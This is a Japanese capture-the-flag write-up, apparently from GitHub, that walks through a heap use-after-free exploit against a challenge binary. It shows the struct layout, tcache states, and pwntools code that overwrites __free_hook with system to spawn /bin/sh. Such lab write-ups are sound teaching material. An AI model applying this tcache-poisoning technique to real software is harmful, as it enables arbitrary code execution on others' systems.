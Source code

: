 ### hourse構造体
hourse構造体は次のように構成されています。
```c
struct hourse {
    char name[0x20];
    void (*dance)();
};
```

### UAFによって`fd`を`__free_hook`で上書き
libc addressをリークしたあと、確保していた領域をfreeします。
freeした後、`name[0x20]`に`__free_hook`のアドレスを書き込むと、`fd`が上書きされます。

freeした時点のtcacheの様子は、次のようになっています。
```
tcache[0x30]: bay -> NULL
```

`fd`を`__free_hook`で上書きしたあとの様子。
```
tcache: bay -> __free_hook -> NULL
```

具体的なコードは以下のようになっています。
```python
release("0") # tcache: bay -> NULL
naming("0", p64(libc.sym['__free_hook']))
#=> tcache: bay -> __free_hook -> NULL
```

### `/bin/sh`を書き込む領域を確保
`chestnut`という名前の領域を新たに確保します。

malloc君は、tcache君が同じサイズをキャッシュしていたら、
その領域を返すので、この領域のアドレスは`bay`と同じである。

よって、tcacheに繋がっているのは、`__free_hook`だけである。
```
tcache[0x30]: __free_hook -> NULL
```

### `__free_hook`を`system`に向けて`system("/bin/sh")`
`gray`という名前の領域を新たに確保すると、
返ってくるのは`__free_hook`のアドレスである。

そこに、`system`のアドレスを書き込むと、`__free_hook`は`system`を向くようになる。
```
__free_hook -> system
```

具体的なコードは以下のようになっています。
```python
catch("2", "gray") # gray == __free_hook
naming("2", p64(libc.sym['system'])) #__free_hook -> system
```
